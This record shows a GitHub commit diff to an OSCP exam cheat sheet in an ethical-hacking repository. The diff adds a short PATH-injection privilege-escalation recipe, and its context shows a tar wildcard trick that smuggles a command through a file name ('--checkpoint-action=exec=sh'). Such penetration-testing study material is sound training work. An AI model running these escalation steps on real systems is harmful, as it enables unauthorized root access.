

Before and after one commit to rottaj/Rotta-Rocks, a Markdown page: ethical-hacking/templates-and-cheat-sheets/oscp-cheat-sheet.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
GITBOOK-172: change request with no subject merged in GitBook

````diff
--- a/ethical-hacking/templates-and-cheat-sheets/oscp-cheat-sheet.md
+++ b/ethical-hacking/templates-and-cheat-sheets/oscp-cheat-sheet.md
@@ -878,6 +878,16 @@ touch -- "--checkpoint-action=exec=sh demo.sh"
 touch -- "--checkpoint=1"
 ```
 
+PATH Injection
+
+```
+echo $PATH
+export PATH=/tmp:$PATH
+cd /home/raj/script
+./shell
+whoami
+```
+
 ### Windows
 
 TODO: [https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a) [https://github.com/r3motecontrol/Ghostpack-CompiledBinaries](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries) [https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
````
